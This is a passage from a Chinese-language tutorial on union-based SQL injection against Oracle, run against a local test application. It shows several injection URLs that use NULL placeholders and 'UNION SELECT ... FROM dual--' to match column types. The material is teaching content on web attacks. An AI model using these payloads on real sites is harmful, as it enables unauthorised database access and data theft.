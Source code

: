 ```
SELECT * from "corps" where "id" = 1 
```

当中查询的字段类型一致。我们已知查询的第二个字段是 corps_name，对应的数据类型是：VARCHAR2(100)，也就是字符型。当我们传入整型的数字时就会报错。比如当我们提交 union 查询时提交如下 SQL 注入语句：

```
http://localhost/SqlInjection/index.jsp?id=1 and 1=2 UNION SELECT 1,2,NULL,NULL FROM dual-- 
```

![enter image description here](img/img6_u31_png.jpg)

Oracle 当中正确的注入方式用 NULL 去占位在我们未知哪个字段是什么类型的时候：

```
http://localhost/SqlInjection/index.jsp?id=1 and 1=2 UNION SELECT NULL,NULL,NULL,NULL FROM dual-- 
```

当已知第一个字段是整型的时候：

```
http://localhost/SqlInjection/index.jsp?id=1 and 1=2 UNION SELECT 1,NULL,NULL,NULL FROM dual-- 
```

SQL 执行后的占位效果：
￼
![enter image description here](img/img7_u21_png.jpg)
